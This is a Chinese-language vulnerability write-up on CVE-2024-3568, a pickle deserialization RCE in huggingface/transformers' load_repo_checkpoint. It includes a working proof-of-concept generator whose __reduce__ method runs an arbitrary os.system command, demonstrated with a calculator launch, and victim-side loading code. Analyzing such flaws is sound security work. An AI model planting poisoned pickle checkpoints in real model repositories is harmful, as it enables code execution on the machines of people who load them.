



# huggingface/transformers RCE漏洞分析（CVE-2024-3568）

# 一、缘起

刚开始研究大模型安全的时候就看到`huggingface/transformers`有这个`load_repo_checkpoint`的漏洞，不过当时看到说是利用起来比较困难就没有再深入研究（世上无难事，只要肯放弃），直到周五（2024-10-18）的时候，看到各个技术群里都在转发字节跳动实习生对大模型投毒的聊天记录，故事情节相当精彩刺激，后来在知乎热榜上也看到出现非常多的讨论，有兴趣的读者可自行吃瓜：

[《字节跳动大模型训练被实习生恶意注入破坏代码，涉事者已被辞退，攻击带来的影响有多大？暴露出哪些问题？ - 知乎》](https://www.zhihu.com/question/1296528119)

既然这个漏洞都已经能够在实际环境中产生危害了，感觉是有必要深入了解分析一下了。

# 二、漏洞复现

前置条件：

- 安装的是4.38.0或之前的transformer

  - ```
    pip install transformers==4.37.2
    pip install tensorflow
    ```

借助这个工具来进行漏洞复现：

```
https://github.com/llm-sec/transformer-hacker
```

先生成一个带`checkpoint`的文件夹，执行的命令是`Mac`下的打开计算器命令：

```bash
python main.py --directory ./rce-checkpoint --model bert-base-uncased --command 'open /System/Applications/Calculator.app'
```



生成好了payload之后，然后执行下面的代码，用这段代码来模拟模型训练加载`checkpoint`的过程，在里面尝试加载生成的带有命令执行的`checkpoint`的仓库文件夹：

```python
from tensorflow.keras.optimizers import Adam
from transformers import TFAutoModel

# 这个模型还是有些大的，下载可能会花一些时间...
# https://huggingface.co/google-bert/bert-base-uncased/tree/main
model = TFAutoModel.from_pretrained('bert-base-uncased')
model.compile(optimizer=Adam(learning_rate=5e-5), loss='sparse_categorical_crossentropy', metrics=['accuracy'])

# 把参数修改为checkpoint所在的仓库的路径
model.load_repo_checkpoint('test_repo')
```

在被加载的时候就能够执行任意命令，但是这里我们只是为了证明能够执行而不想产生实际危害，所以我们只是弹出了一个计算器：



# 三、漏洞原理分析

从大的流程上来说，就是`transformers`允许从检查点恢复预训练的一些进度，而所谓的`checkpoint`检查点其实就是一个文件夹，结构大概是这样子的：



文件夹名称`checkpoint`是约定的固定的名称，下面的两个文件：

- `weights.h5`：模型的权重文件，必须要是跟正在使用的模型架构对应的的权重，否则的话加载权重这一步就会抛异常，走不到执行命令那一步，所以利用时要知道使用的是哪个模型架构，因为不同的架构可能有不同的神经网络层数之类的

- `extra_data.pickle`：这个文件的初衷是存放一些元数据信息，只是保存方式选择的方式选择得不太合适，为了方便直接用`pickle.dump`来保存，输出的是一个序列化的文件，而模型加载的时候要读取对应的元数据信息，就会使用`pickle.load(f)`来加载这个文件，从而利用反序列化漏洞进行RCE。

下面来看一下poc代码，追一下源代码看看漏洞到底是怎么产生的，可以看到是在`TFAutoModel`的`model.load_repo_checkpoint`方法读取了有问题的`checkpoint`：

```python
from tensorflow.keras.optimizers import Adam
from transformers import TFAutoModel

# 这个模型还是有些大的，下载可能会花一些时间...
# https://huggingface.co/google-bert/bert-base-uncased/tree/main
model = TFAutoModel.from_pretrained('bert-base-uncased')
model.compile(optimizer=Adam(learning_rate=5e-5), loss='sparse_categorical_crossentropy', metrics=['accuracy'])

# 把参数修改为checkpoint所在的仓库的路径，注意路径要正确
model.load_repo_checkpoint('rce-checkpoint')
```

让我们跟进去代码看一下，这个方法完整的实现是下面这样子，可以看到逻辑比较简单，下面我们将一段一段的分析它：

```python
    def load_repo_checkpoint(self, repo_path_or_name):
        """
        Loads a saved checkpoint (model weights and optimizer state) from a repo. Returns the current epoch count when
        the checkpoint was made.

        Args:
            repo_path_or_name (`str`):
                Can either be a repository name for your {object} in the Hub or a path to a local folder (in which case
                the repository will have the name of that local folder).

        Returns:
            `dict`: A dictionary of extra metadata from the checkpoint, most commonly an "epoch" count.
        """
        if getattr(self, "optimizer", None) is None:
            raise RuntimeError(
                "Checkpoint loading failed as no optimizer is attached to the model. "
                "This is most likely caused by the model not being compiled."
            )
        if os.path.isdir(repo_path_or_name):
            local_dir = repo_path_or_name
        else:
            # If this isn't a local path, check that the remote repo exists and has a checkpoint in it
            repo_files = list_repo_files(repo_path_or_name)
            for file in ("checkpoint/weights.h5", "checkpoint/extra_data.pickle"):
                if file not in repo_files:
                    raise FileNotFoundError(f"Repo {repo_path_or_name} does not contain checkpoint file {file}!")
            repo = Repository(repo_path_or_name.split("/")[-1], clone_from=repo_path_or_name)
            local_dir = repo.local_dir

        # Now make sure the repo actually has a checkpoint in it.
        checkpoint_dir = os.path.join(local_dir, "checkpoint")
        weights_file = os.path.join(checkpoint_dir, "weights.h5")
        if not os.path.isfile(weights_file):
            raise FileNotFoundError(f"Could not find checkpoint file weights.h5 in repo {repo_path_or_name}!")
        extra_data_file = os.path.join(checkpoint_dir, "extra_data.pickle")
        if not os.path.isfile(extra_data_file):
            raise FileNotFoundError(f"Could not find checkpoint file extra_data.pickle in repo {repo_path_or_name}!")

        # Assuming the repo is real and we got a checkpoint, load the weights and the optimizer state into the model.
        # The optimizer state includes the iteration count, so learning rate schedules should resume as normal too.
        self.load_weights(weights_file)
        with open(extra_data_file, "rb") as f:
            extra_data = pickle.load(f)
        self.optimizer.set_weights(extra_data["optimizer_state"])

        # Finally, return the epoch number from the checkpoint. This isn't a property of the model, so we can't
        # set it directly, but the user can pass it to fit().
        return {"epoch": extra_data["epoch"]}
```

首先这部分是对模型自身的设置进行检查，这就要求模型使用的时候必须要配置了`optimizer`：

```python
        if getattr(self, "optimizer", None) is None:
            raise RuntimeError(
                "Checkpoint loading failed as no optimizer is attached to the model. "
                "This is most likely caused by the model not being compiled."
            )
```

所以我们的poc代码里也为模型配置了`optimizer`：

```python
model.compile(optimizer=Adam(learning_rate=5e-5), loss='sparse_categorical_crossentropy', metrics=['accuracy'])
```

紧接着对传入的文件夹的合法性进行检查，比如必须是一个目录文件，必须存在`checkpoint/weights.h5`和`checkpoint/extra_data.pickle`这两个文件： 

```python
        if os.path.isdir(repo_path_or_name):
            local_dir = repo_path_or_name
        else:
            # If this isn't a local path, check that the remote repo exists and has a checkpoint in it
            repo_files = list_repo_files(repo_path_or_name)
            for file in ("checkpoint/weights.h5", "checkpoint/extra_data.pickle"):
                if file not in repo_files:
                    raise FileNotFoundError(f"Repo {repo_path_or_name} does not contain checkpoint file {file}!")
            repo = Repository(repo_path_or_name.split("/")[-1], clone_from=repo_path_or_name)
            local_dir = repo.local_dir
            
        # Now make sure the repo actually has a checkpoint in it.
        checkpoint_dir = os.path.join(local_dir, "checkpoint")
        weights_file = os.path.join(checkpoint_dir, "weights.h5")
        if not os.path.isfile(weights_file):
            raise FileNotFoundError(f"Could not find checkpoint file weights.h5 in repo {repo_path_or_name}!")
        extra_data_file = os.path.join(checkpoint_dir, "extra_data.pickle")
        if not os.path.isfile(extra_data_file):
            raise FileNotFoundError(f"Could not find checkpoint file extra_data.pickle in repo {repo_path_or_name}!")
```

然后到重点了，紧接着加载了模型的权重文件，这里加载权重文件不正确的话就会抛出异常，走不到下一步，所以这就是为什么我们一定要生成正确的权重文件（针对权重文件的投毒后续会再出一片文章展开解释）：

```python
        # Assuming the repo is real and we got a checkpoint, load the weights and the optimizer state into the model.
        # The optimizer state includes the iteration count, so learning rate schedules should resume as normal too.
        self.load_weights(weights_file)
```

再然后，开始读取`extra_data.pickle`反序列化，就来到了我们熟悉的`pickle.load(f)`环节，在这一步，产生了RCE：

```python

        with open(extra_data_file, "rb") as f:
            extra_data = pickle.load(f)
        self.optimizer.set_weights(extra_data["optimizer_state"])

        # Finally, return the epoch number from the checkpoint. This isn't a property of the model, so we can't
        # set it directly, but the user can pass it to fit().
        return {"epoch": extra_data["epoch"]}
```

让我们来看一下这个``extra_data.pickle``文件是如何生成的，这里定义了一个类，然后为这个类创建了一个对象并`dump`到了硬盘上，在这个类上有一个特殊的`__reduce__`方法，在pickle的规范约定中，反序列化时会调用类上的`__reduce__`方法，所以就RCE：
```python
def generate_extra_data_pickle(filepath, command):
    """
    生成extra_data.pickle文件，这个文件被加载的时候会执行给定的命令
    :param filepath: extra_data.pickle文件的位置
    :param command: 要执行的命令
    :return:
    """

    class CommandExecute:
        def __reduce__(self):
            """
            在 pickle.load(f) 的时候，此处的命令会被执行
            :return:
            """
            return os.system, (command,)

    poc = CommandExecute()
    with open(filepath, 'wb') as fp:
        pickle.dump(poc, fp)
```

官方的修复似乎是把这个方法删除掉了？草没看明白...

```
https://github.com/huggingface/transformers/commit/693667b8ac8138b83f8adb6522ddaf42fa07c125
```

# 四、影响范围 & 防御措施

- 升级transformer的版本到4.38.0之后
- 不允许checkpoint或者对checkpoint进行检查

# 五、参考链接

- https://github.com/huggingface/transformers/commit/693667b8ac8138b83f8adb6522ddaf42fa07c125
- https://huntr.com/bounties/b3c36992-5264-4d7f-9906-a996efafba8f
- https://github.com/advisories/GHSA-37q5-v5qm-c9v8

# 六、大模型安全技术交流群

扫码加入大模型安全交流群：


如群二维码过期，可以加我个人微信，发送【大模型安全】拉你进群：


